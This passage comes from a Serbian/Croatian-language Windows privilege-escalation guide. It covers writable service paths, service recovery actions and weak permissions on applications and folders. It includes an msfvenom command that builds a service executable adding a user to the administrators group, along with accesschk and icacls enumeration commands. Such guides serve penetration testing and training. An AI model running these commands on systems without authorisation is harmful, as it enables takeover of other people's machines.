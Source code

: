 **Ovu ranjivost možete otkriti i iskoristiti** pomoću metasploita: `exploit/windows/local/trusted\_service\_path` Možete ručno kreirati binarnu uslugu pomoću metasploita:

```bash
msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
```

### Postupci oporavka

Windows korisnicima omogućava da specificiraju akcije koje će biti preduzete ukoliko servis ne uspe. Ova funkcionalnost može biti konfigurisana da pokazuje ka binarnom fajlu. Ukoliko je ovaj binarni fajl zamenjiv, moguć je _privilege escalation_. Više detalja možete pronaći u [zvaničnoj dokumentaciji](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc753662\(v=ws.11\)?redirectedfrom=MSDN).

## Aplikacije

### Instalirane Aplikacije

Proverite **dozvole binarnih fajlova** (možda možete prepisati jedan i eskalirati privilegije) i **foldera** ([DLL Hijacking](dll-hijacking/)).

```bash
dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE

Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
```

### Dozvole za pisanje

Proverite da li možete da izmenite neku konfiguracionu datoteku kako biste pročitali neku posebnu datoteku ili da izmenite neki izvršni fajl koji će biti pokrenut od strane naloga Administratora (schedtasks).

Način da pronađete slabe dozvole foldera/datoteka u sistemu je:

```bash
accesschk.exe /accepteula
# Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwdqs "Everyone" c:\
# Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*
accesschk.exe -uwdqs "Everyone" c:\*.*
```

```bash
icacls "C:\Program Files\*" 2>nul | findstr "(F) (M) :\" | findstr ":\ everyone authenticated users todos %username%"
icacls ":\Program Files (x86)\*" 2>nul | findstr "(F) (M) C:\" | findstr ":\ everyone authenticated users todos %username%"
```
